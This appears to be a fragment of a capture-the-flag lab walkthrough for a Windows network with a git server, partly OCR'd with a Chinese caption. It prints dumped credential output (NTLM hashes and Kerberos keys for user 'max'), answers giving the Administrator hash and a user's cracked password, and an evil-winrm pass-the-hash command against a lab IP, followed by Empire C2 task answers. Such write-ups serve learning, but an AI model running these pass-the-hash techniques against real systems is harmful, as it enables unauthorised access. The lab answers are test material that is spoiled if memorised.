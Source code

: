 ```


RID  : 000003eb (1003)
User : max
  Hash NTLM: cf4836436d2bebf810c5167ac154bdcb

Supplemental Credentials:
* Primary:NTLM-Strong-NTOWF *
    Random Value : 959f2ea9834aca1bbd4ff41a5e2f0901

* Primary:Kerberos-Newer-Keys *
    Default Salt : GIT-SERVmax
    Default Iterations : 4096
    Credentials
      aes256_hmac       (4096) : f1be2fd9f46ad817398db9919a859283d93d9080abff427929f98d25432e03b6
      aes128_hmac       (4096) : 863d45f005ac9781f52e94a5f2b2f503
      des_cbc_md5       (4096) : dcd5b0542abc4525

* Packages *
    NTLM-Strong-NTOWF

* Primary:Kerberos *
    Default Salt : GIT-SERVmax
    Credentials
      des_cbc_md5       : dcd5b0542abc4525

```

> What is the Administrator password hash?

> 37db630168e5f82aafa8461e05c6bbd1

> What is the NTLM password hash for the user "Thomas"?

> 02d90eda8f6b6b06c32d5f207831101f

> What is Thomas' password?

> i<3ruby


管理员哈希登录：

```
evil-winrm -u Administrator -H '37db630168e5f82aafa8461e05c6bbd1' -i 10.200.101.150
```


# Task 24  Command and Control Empire: Overview

> Can we get an agent back from the git server directly (Aye/Nay)?

> nay

# Task 27  Command and Control Empire: Agents
